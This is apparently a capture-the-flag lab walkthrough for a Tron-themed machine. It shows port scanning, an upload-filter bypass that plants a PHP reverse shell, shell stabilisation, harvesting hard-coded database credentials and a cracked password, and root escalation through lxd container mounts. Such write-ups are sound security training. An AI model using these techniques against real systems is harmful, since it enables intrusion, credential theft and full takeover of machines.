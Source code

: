## **Enumeration**
>	- Performing initial SYN scan on all ports.
```
nmap -sS -p- -vv 10.10.217.93
```
>	  ![](nmap-out.png)
>	- Accessing the website on `10.10.217.93:65000`.![](hidden-webapp.png)
>	- Using `gobuster dir -u http://10.10.217.93:65000/ -w /usr/share/dirb/wordlists/common.txt -x "php"` to search for `.php` files.![](dirb-php-out.png)
## **Gaining Access**
>	- Going to `/uploads.php` to test the upload filters and upload the reverse shell.
>	- Adding `.jpg.php` to the end of the file shows invalid. The web application seems to use client-side filtering.![](upload-filtered.png)
>	- Use `burpsuite` to drop the `.js` file that implements the client-side filter. 
>	- *NOTE: Make sure to allow burpsuite to catch .js files by going to Proxy > Proxy settings > Request Extension Rules > File Extensions and remove |^.js$ and then in the Response Interception rules section allow "intercept responses based on the following rules".*
>	- Drop the `filter.js` file.![](filter-drop.png)
>	- Upload the `php-reverse-shell.jpg.php` to the web application which evades the server-side filtering by the use of the `.jpg` extension before the `.php` one. Make sure to edit the `$ip` and `$port` to the appropriate values.
>	- Use `nc -lvnp 443` to wait for the shell, then go to the path `/grid` and access the uploaded reverse shell.![](reverse-shell.png)
>	- Stabilize the shell and make it interactive using the following.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
>	- `export TERM=xterm` gives us access to term commands such as `clear`.![](stab-shell-1.png)
>	- Then back-grounding the process using `CTRL+Z` and then to add tab auto-completes and arrow-keys by using `stty raw -echo; fg` which turns off main terminal's echo as well. *NOTE: Use the command "reset" to gain access back on the main terminal to the disabled features*![](stab-shell-2.png)
>	- Search for the flag using `find / -name web.txt`.![](flag-1.png)
## **Enumeration v2**
>	- Use `find /var/www/ -maxdepth 2 -type d -exec ls -ld "{}" \` to recursively search the directories located in `/var/www/` with max-depth 2.![](search-www-out.png)
>	- The `/var/www/TheGrid/includes/dbauth.php` contains hard-coded credentials.![](dbauth-out.png)
>	- Accessing the database by using `mysql -utron -p`.![](mysql-access-out.png)
>	- Using `show databases;` to view all the databases present.![](databases-out.png)
>	- Using `use tron;` and `show tables;` afterwards.![](tables-out.png)
>	- Using `SELECT * FROM users;` to view the credentials.![](users-out.png)
>	- *NOTE: IP changed*
>	- Using `https://crackstation.net` to crack the found hash.![](pass-cracked.png)
>	- Using `su flynn` and the cracked password `@computer@` to access the user.![](flynn-accessed.png)
>	- Second flag can be found in `home/flynn/user.txt`.![](flag-2.png)
>	- Get `flynn`'s groups by using `id`.![](flynn-groups.png)
## **Privilege Escalation**
>	- The found group `lxd` can be abused to escalate privileges.
>	- First check that there is already an `lxc` image using `lxc image list`, if nothing comes back, then we need to transfer the alpine image to the target.
>		- On the attacking machine:
>			- Download build-alpine through this [git repository](https://github.com/lxd-images/alpine-3-7-apache-php5-6).
>			- Transfer the `.tar` file to the target.
>		- On the target machine:
>			- Download the alpine image.
>			- import image for lxd.
>			- Initialize the image inside a new container.
>			- Mount the container inside `/root` directory.
>	- In our case there is already an alpine image on the target.![](alpine-image.png)
>	- Use `lxc init Alpine container -c security.privileged=true` to initialize a container named `container`.
>	- Use `lxc config device add container devicename disk source=/ path=/mnt/root recursive=true` to mount the image.
>	- Use `lxc start container`.
>	- Use `lxc exec container /bin/sh` to open a shell.![](alpine-shell.png)
>	- Check the user groups and that we escalated privileges correctly using `id` and `cd /mnt/root/root`.![](privesc-out.png)
>	- The final flag is found in `./root.txt`.![](flag-3.png)